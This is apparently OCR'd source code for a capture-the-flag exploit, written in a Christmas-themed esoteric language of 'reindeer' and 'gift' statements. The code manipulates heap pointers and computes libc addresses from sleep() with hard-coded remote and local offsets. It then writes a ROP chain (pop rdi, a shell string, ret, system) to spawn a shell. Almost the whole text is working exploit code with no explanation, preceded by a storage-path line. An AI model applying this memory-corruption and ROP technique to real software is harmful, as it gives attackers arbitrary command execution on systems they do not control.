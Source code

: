 ```
        reindeer Rudolph delivering gift fdb pad size;
        gift size is 12;
        reindeer Rudolph delivering gift fdb pad size;
        gift size is 8;
        gift ptr is ptr - 56;
        reindeer Rudolph delivering gift fdb ptr size;
        # set rop#
        # remote #
        gift libc is sleep  - 972880;
        gift system is libc + 346848;
        gift poprdi is libc + 190149;
        gift ret is libc + 190150;
        # local #
        # gift libc is  sleep - 941888; #
        # gift system is libc + 349200; #
        # gift poprdi is libc + 158578; #
        # gift ret is libc + 158579; #
        gift ptr is ptr + 3072; 
        gift rop is rop + 8;
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr - 1120; # shell#
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr + 1152; # ret #
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr - 64; # system #
        reindeer Vixen delivering gift rop ptr size;
ok, they should already have a gift;
```

